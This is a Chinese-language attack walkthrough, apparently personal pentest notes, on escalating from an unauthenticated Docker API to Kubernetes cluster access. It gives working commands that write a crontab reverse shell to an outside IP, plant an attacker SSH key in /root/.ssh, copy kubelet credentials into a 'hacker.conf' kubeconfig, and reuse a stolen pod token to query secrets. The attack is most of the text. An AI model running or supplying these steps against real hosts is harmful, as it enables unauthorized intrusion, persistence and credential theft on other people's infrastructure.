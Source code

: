 ## 1. 如何从docker未授权漏洞到获得k8s master的访问权

### 1.1. docker未授权攻击步骤  

没什么好说的，和redis的利用方式很像  

* 方式一
```
# docker  -H tcp://ip:2375 run -it -v /etc:/mnt centos /bin/bash
# cp /mnt/crontab /mnt/crontab.bak
# echo -e "* * * * * root bash -i >& /dev/tcp/172.1.1.1/8008 0>&1\n" >> /mnt/crontab
```  

* 方式二
```
# docker -H tcp://ip:2375 run -it -v /root/.ssh/:/mnt centos /bin/bash
# ssh-keygen -t rsa -P '' //攻击者在本地生成密钥
# echo "xxxx" >> /mnt/authorized_keys //把密钥写入远程docker
# ssh ip //连接
```  

### 1.2. 查看是否是k8s节点  

- 首先查看是否是k8s master节点  

```
# docker -H 1.1.1.1 ps| grep apiserver
```  

- 反弹获得shell后，再查看主机是否是k8s节点  

```
# netstat -an | grep 6443 //查看是否有和6443连接，同时可以找到master的ip
# ps -ef  | grep kubelet //查看是否存在kubelet
```  

### 1.3. 复制配置文件

找到kubelet.conf文件  
  
![](_v_images/20200530222246992_14851.png)  

把`/etc/kubernetes/kubelet.conf`的内容复制下来，并把里面的pem文件也一起复制下来。如果user是default-auth的话，权限不会太大  

![](_v_images/20200530222344945_6095.png)  

一共三个文件：kubelet.conf、kubelet-client-current.pem和kubelet-client-current.pem  

### 1.4. 连接远程6443  

```bash
# cat hacker.conf 
apiVersion: v1
clusters:
- cluster:
    certificate-authority-data: xxxxxxxxxxxxxxxxxxxxxxxxxxxxx
    server: https://k8s-nginx-01.xxx.cloud:6443  //改成需要连接的master的ip
  name: default-cluster
contexts:
- context:
    cluster: default-cluster
    namespace: default
    user: default-auth
  name: default-context
current-context: default-context
kind: Config
preferences: {}
users:
- name: default-auth
  user:
    client-certificate: client.pem
    client-key: client.pem

# kubectl --kubeconfig hacker.conf get pods
NAME          READY   STATUS             RESTARTS   AGE
lxcfs-qhxqt   0/1     CrashLoopBackOff   11725      41d

```  

然而并没有什么卵用，这个用户权限太低，只能一些命令  

![](_v_images/20200530222438525_6668.png)  

### 1.5. 换个姿势

随便进入某个pod，然后查看token  

![](_v_images/20200530222521277_23203.png)  

接着使用命令`kubectl --insecure-skip-tls-verify=true --server="https://192.168.1.1:6443" --token="eyJ....." get secrets --all-namespaces`连接试试，发现还是权限不足  

![](_v_images/20200530222611305_13413.png)  

通过一系列的尝试后，发现k8s_agent_cattle-node-agent-fbgcq_cattle-system的pod权限比较大（因为这个是rancher的agent，所以当然有比较大权限），下一步便是通过创建pod来挂载目录，然后用crontab来获得shell了  。这里就不继续了
  
  ![](_v_images/20200530222635979_16441.png)
